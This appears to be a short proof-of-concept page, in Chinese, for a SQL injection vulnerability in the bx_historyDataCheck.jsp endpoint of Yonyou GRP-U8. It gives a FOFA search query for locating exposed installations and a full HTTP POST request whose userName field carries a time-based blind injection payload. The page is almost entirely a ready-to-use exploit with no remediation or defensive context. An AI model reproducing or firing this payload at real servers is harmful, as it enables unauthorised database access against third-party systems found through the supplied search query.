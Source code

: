 # 用友 GRP-U8 bx_historyDataCheck.jsp SQL注入漏洞

## 用友 GRP-U8 bx_historyDataCheck.jsp SQL注入漏洞

## fofa-qeury
app="yonyou-GRP-U8"

## POC
```
POST /u8qx/bx_historyDataCheck.jsp HTTP/1.1
Host: 
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

userName=';WAITFOR DELAY '0:0:5'--&ysnd=&historyFlag=
```

